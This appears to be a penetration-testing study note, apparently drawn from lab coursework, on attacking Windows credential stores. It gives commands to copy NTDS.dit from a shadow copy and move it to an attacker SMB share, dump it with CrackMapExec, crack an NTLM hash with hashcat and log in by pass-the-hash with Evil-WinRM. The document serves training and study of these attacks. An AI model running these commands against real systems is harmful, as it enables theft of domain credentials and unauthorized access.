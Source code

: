 ```
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
use the technique from attacking sam to create an SMB share on our attack host.
### Transferring NTDS.dit to Attack Host
```
 cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
 ```
## A Faster Method: Using cme to Capture NTDS.dit
sing CrackMapExec to accomplish the same steps shown above, all with one command. This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.
```
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
## Cracking Hashes & Gaining Credentials

### Cracking a Single Hash with Hashcat
```
 sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
if crack unsuccessful use pass the hash technique.
## Pass-the-Hash Considerations
We can still use hashes to attempt to authenticate with a system using a type of attack called Pass-the-Hash (PtH). A PtH attack takes advantage of the NTLM authentication protocol to authenticate a user using a password hash. Instead of username:clear-text password as the format for login

### Pass-the-Hash with Evil-WinRM Example
```
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

# Credential Hunting in Windows
Credential Hunting is the process of performing detailed searches across the file system and through various applications to discover credentials. 

## Search Centric
A user may have documented their passwords somewhere on the system. There may even be default credentials that could be found in various files. It would be wise to base our search for credentials on what we know about how the target system is being used.

### Key Terms to Search
![image](https://github.com/user-attachments/assets/89344284-8cb1-4290-b527-7e06c2240c07)

## Search Tools
It is worth attempting to use Windows Search and use the keywords mentioned.
By default, it will search various OS settings and the file system for files & applications containing the key term entered in the search bar.
